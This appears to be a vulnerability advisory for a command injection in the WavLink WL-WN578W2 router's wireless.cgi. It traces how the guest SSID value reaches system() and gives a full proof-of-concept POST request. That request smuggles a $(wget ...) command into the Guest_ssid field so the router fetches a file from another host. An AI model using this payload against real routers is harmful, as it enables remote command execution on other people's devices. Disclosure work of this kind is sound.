

# WL-WN578W2 Vulnerability

Vendor:WavLink

Product:WL-WN578W2

Vulnerability: Command Injection

Type:Remote Command Execution


## Descriptions

We found an Command Injection vulnerability  in `wireless.cgi` , allows remote attackers to execute arbitrary OS commands from a crafted request:

In  ftext function,the router compare the `page` parameter.

When the value of `page` is `GuestWifi`, the function sub_4033CC will be called.

<div  align="center"></div>

the value of the `guestssid` is inserted into `v15` ,and the value of `v15` will be handled by the function sub_406BE0.

<div  align="center"></div>
<div  align="center"></div>

Finally,the value of `guestssid` will be inserted into `v8` and `v8` will be executed by  system() in sub_406BE0

<div  align="center"></div>


## Proof of Concept (PoC)

We set `guest_ssid` as **$(wget+192.168.6.1:6666/testpoc)** , and the router will execute it,such as:

```http
POST /cgi-bin/wireless.cgi HTTP/1.1
Host: 192.168.6.2
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.6.2/wizard_rep.shtml
Accept-Encoding: gzip, deflate, br
Cookie: session=314627586
Connection: keep-alive
Content-Length: 66

page=GuestWifi&guestEn=1&Guest_ssid=$(wget+192.168.6.1:6666/testpoc)
```

<div  align="center"></div>


